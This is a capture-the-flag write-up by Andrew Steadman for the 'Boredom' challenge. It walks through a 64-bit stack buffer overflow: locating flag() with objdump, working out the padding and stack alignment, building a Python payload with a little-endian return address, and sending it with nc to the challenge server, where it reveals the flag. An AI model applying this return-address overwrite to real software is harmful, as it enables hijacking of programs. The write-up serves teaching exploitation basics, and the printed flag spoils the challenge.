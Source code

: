# Boredom

This CTF is a simple stack overflow.

Based on the C code, we have a 200 byte buffer that lives on the stack. In fact, it is the only variable on the stack.
We also know there is a function, called `flag()`, that if called will give us the flag.

So, what address does `flag()` have?

```
$ objdump -t boredom | grep flag
00000000004011d5 g     F .text  000000000000008b              flag
```

IE: `flag()` is at `0x4011d5`.

## The Textbook Solution

`main()` is a regular function.  It has a return value. The epilogue of the function looks something like this:

```asm
leave
ret
```

Where `leave` is equivalent to `mov rsp, rbp; pop rbp` and `ret` is an instruction that is equivalent to `pop rip`.

So, on net, the function epilogue looks like this:

```asm
mov rsp, rbp
pop rbp ; Pop 8 bytes off the stack
pop rip ; Pop another 8 bytes off the stack.
```

For a "by-the-book" stack overflow, you should therefore fill the buffer (200 bytes). Then write 8 more bytes (this value will be popped off the stack and end up in rbp), and finally write 8 bytes representing the target address you wish to jump to (in this case `0x4011d5`).

### Exploit Script:

Here is a simple way to generate an input of 208 dummy bytes, followed by our desired address:

```bash
python -c 'print "U"*208 + "\xd5\x11\x40\x00\x00\x00\x00\x00"'
```

> Note: we don't actually care about corrupting rbp, since we don't need it.
Also, we had to reverse the order of the bytes of our address since x64 processors are little-endian.

## Testing the solution

Since we have a copy of the binary, let's try it out:

```
$ python -c 'print "U"*208 + "\xd5\x11\x40\x00\x00\x00\x00\x00"' | ./boredom
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Segmentation fault (core dumped)
```

> Shit. That didn't work. What the hell?

Well, it turns out that compilers for x64 systems don't *like* allocating **only** 200 bytes on the stack. Normally, they allocate the stack such that it has a 16 byte alignment. If you look closely at the assembly dump of the binary, you'll see that it actually allocates 0xd0 (or 208) bytes for the stack (Note that 208 is a multiple of 16).

Therefore, after our buffer there is an *extra* 8 bytes of allocated but unused memory.

Let's try accounting for those 8 bytes:

```
$ python -c 'print "U"*216 + "\xd5\x11\x40\x00\x00\x00\x00\x00"' | ./boredom
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
You're running this locally or I can't access the flag file for some reason.
If this occurs on the remote, ping @PMP#5728 on discord server.
```

**BOOM**. That's better.

> Note: It actually turns out to be pretty tricky to get compilers to emit the code without this alignment requirement (linux on x64 mandates it as part of the calling convention). In principal, gcc has a tunable option for what the stack alignment should be: `-mpreferred-stack-boundary=num` (defaults to 4 for 2^4 byte alignment), but I didn't have any luck lowering it.

## Capture the Flag!

```
$ python -c 'print "U"*216 + "\xd5\x11\x40\x00\x00\x00\x00\x00"' | nc pwn.hsctf.com 5002
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
```

> Wait. WHAT? We tested this already.

Ok, so here's the deal. The solution to this challenge is **actually** the textbook example. The binary has been specifically manufactured to behave as-if it didn't have the buffer aligned to a 16-byte boundary. (Presumably by padding or offsetting the buffer slightly such that the 200 byte buffer actually is the last thing on the stack.)

## Capture the Flag (For Realz!)


Ok. So let's try the "textbook" solution:

<details><summary>Spoiler (Output Includes Flag)</summary>
<p>

```
$ python -c 'print "U"*208 + "\xd5\x11\x40\x00\x00\x00\x00\x00"' | nc pwn.hsctf.com 5002
I'm currently bored out of my mind. Give me sumpfink to do!
Give me something to do: Ehhhhh, maybe later.
Hey, that's a neat idea. Here's a flag for your trouble: flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}

Now go away.
```

</p>
</details>

---

Andrew Steadman
